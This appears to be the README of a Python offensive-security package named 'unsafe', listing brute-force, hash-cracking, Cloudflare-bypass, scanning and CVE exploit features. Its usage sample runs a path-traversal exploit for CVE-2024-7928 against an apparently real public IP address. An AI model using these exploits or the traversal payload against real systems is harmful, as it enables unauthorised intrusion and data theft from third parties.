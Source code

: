![PyPI](https://img.shields.io/pypi/v/unsafe?style=for-the-badge)
![Daily Downloads](https://img.shields.io/pypi/dd/unsafe?style=for-the-badge)
![Weekly Downloads](https://img.shields.io/pypi/dw/unsafe?style=for-the-badge)
![Monthly Downloads](https://img.shields.io/pypi/dm/unsafe?style=for-the-badge)



# Unsafe (Advanced Penetration Testing Module)

Aiming to become the best package available for hacking and security in Python.

- Author : Ahur4
  - [Telegram Channel](https://t.me/Ahura_Rahmani)
  - [Telegram Pv](https://t.me/Ahur4)
# Installation
```bash
pip install unsafe
```
# Features

- [x] **BruteForce**
  - [x] Admin Finder
  - [x] FileManager Finder
  - [x] Cloudflare Bypasser
  - [x] Wordpress Plugin Finder
- [x] **Cryptography**
  - [x] Decrypt
  - [x] Encrypt
  - [x] Hash
  - [x] Crack Hash
- [x] **Exploits**
  - [x] [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)
  - [x] [CVE-2024-7313](https://nvd.nist.gov/vuln/detail/CVE-2024-7313)
  - [x] [CVE-2024-7339](https://nvd.nist.gov/vuln/detail/CVE-2024-7339)
  - [x] [CVE-2024-7928](https://nvd.nist.gov/vuln/detail/CVE-2024-7928)
  - [x] Add more in future.
- [x] Forensic
  - [x] Image Metadata
  - [x] PDF Metadata
  - [x] Audio Metadata
- [x] Network
  - [x] MacAddress Lookup
  - [x] Proxy Tester
  - [x] Port Scanner
  - [x] Proxy Extractor
- [x] Web
  - [x] Search Engine ( For GoogleDorking )
  - [x] Crawler
  - [x] Xss Scanner
  - [x] SQL Injection Scanner

## Usage
Exploit Sample
```python
from unsafe import exploits

penetration_tester = exploits.CVE_2024_7928(
    url="http://47.105.229.158:9001",
    path="/index/ajax/lang",
    key="lang",
    value="../../application/database",
)
result = penetration_tester.check_vuln()
if result is not None:
    print("Target is vulnerable !")
    print("\n".join([f"{k} : {v}" for k, v in result.items()]))
else:
    print("Target is not vulnerable !")
```

Mac Address lookup/Port scanner
```python
from unsafe import network

# macaddress lookup
mac_address = "00:00:5e:00:53:af"
lookup = network.mac_address_lookup(mac=mac_address)
print(lookup)

# port scanning
ports = [80, 443, 21, 27017, 9002]
ip = "127.0.0.1"
open_ports = network.port_scanner(host=ip, ports=ports)
print(open_ports)
```
### [More Examples on Github](https://github.com/ahur4/unsafe/tree/main/example)
# New Features : Coming Soon...